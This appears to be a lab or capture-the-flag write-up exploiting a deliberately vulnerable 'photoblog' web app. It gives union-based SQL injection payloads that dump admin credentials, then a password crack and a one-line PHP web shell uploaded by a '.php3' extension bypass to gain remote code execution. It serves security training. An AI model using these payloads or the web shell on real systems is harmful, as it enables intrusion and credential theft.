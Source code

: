 ## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5ddbab7b-1bb5-4914-b37f-71c5129453cd)

Navigate to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2b60418f-1992-403a-bce9-27b56c4855a7)

Click on "pool", you should get this url

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/28ae9253-baa2-43cd-a9c2-ee6c777bc70c)

Checking if it is vulnerable to SQLi, just add ```'``` at the back of ```3```. This should trigger a SQL error

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0390bd99-c07c-4037-a3c6-ac89a1ee19ab)

We'll be exploiting this from the webpage

Lets check for the number of columns available in the database. We can use the query
```sql
order by 1 -- 
order by 2 --
order by 3 --
```
Using these queries

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/57db1a3f-b189-4daa-8fad-c7f4557ddf29)

This means we don't have a 5th column in the database, which means we have just 4 columns.

Lets check for the column that is compatible with string data, that is the vulnerable column. We can use the query
```sql
AND 0 UNION SELECT 1,2,3,4-- -
```
This query should return the vulnerable column

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/28f96a6b-74b3-4908-b94a-46cb40721d01)

We can see that column 2 is the vulnerable one. 

Checking for the name of the database, we can use the query
```sql
UNION SELECT 1,database(),3,4-- -
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0a2d3138-b00a-4419-a5df-908f13d485f7)

We got the name of the database to be ```photoblog```

Checking for the "tablename", we can use the query
```sql
UNION SELECT 1,table_name,3,4 FROM information_schema.tables WHERE table_schema="photoblog"-- -
```
Trying this query

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/31afa67c-acdb-4fdc-989a-40eb827dd7c9)

We got the tables available in the database, but the interesting one is the ```users``` table.

Checking for column name available in the ```users``` table, we can use the query
```sql
UNION SELECT 1,column_name,3,4 FROM information_schema.columns WHERE table_schema="photoblog" AND table_name="users"-- -
```
Trying this query

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6d04bc92-c94c-4c97-bbf7-29b61fe9a778)

We got interesting column names, lets dump the contents of these columns. We can use the query
```sql
UNION SELECT 1,CONCAT(login,0x3a,password),3,4 FROM users-- -
```
You should get this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fbcb32b7-8f06-44f4-bf03-8c9c4ba467e6)

We got the hash for the ```admin``` user. Lets save this in a file, then we use John to crack it

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/022da10f-4f68-412d-b84c-d9c07c796c53)

We got the admin password.

Logging in to the webserver

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/96226fa6-d472-487d-aa10-7eeda63250d3)

We are logged in.

We can go ahead to add a picture

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fabf530f-40e4-4fad-944b-b4cf7617f242)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9748f45b-ac28-4d61-ba00-72425dcd8f0e)

Lets try to upload a php script, we'll be using this simple payload
```php
<?php system($_GET['cmd']); ?>
```
Save this in a file, then we'll try to upload it

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/26eef305-21e7-422b-a57e-bfa77a6e19e0)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/446bf731-b0c1-4f9d-adec-5d200a4660e8)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4507badf-a0e6-4a44-bb1d-952a98dc19cf)

Alrigt, so ".php" extensions aren't allowed. Lets change the extension to something else, say ```.php3```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/49712f43-62b7-4ae1-a72b-43cf23ce978e)

Lets try to upload this again

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/84b43589-cc5c-42c0-8bcd-26e1ae643b8f)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6a5fd5ce-ded3-4a90-89d8-3a244aa8b4bb)

Our script got uploaded successfully

Navigating to the path where the script was uploaded to

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0122f2c6-3b00-406f-8d8f-7e2317494cdd)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9d4d631d-3366-4d72-a551-b7f8747aaa29)

We have successfully gained Remote Code Execution on this webserver.

To complete this exercise, we have to run the binary

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/bddec12e-5549-474c-8045-bd6bf3db7389)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a31d7c5c-91cd-49a3-9354-e8f7a695403f)

We have successfully completed this exercise, it was a fun and easy one😎


































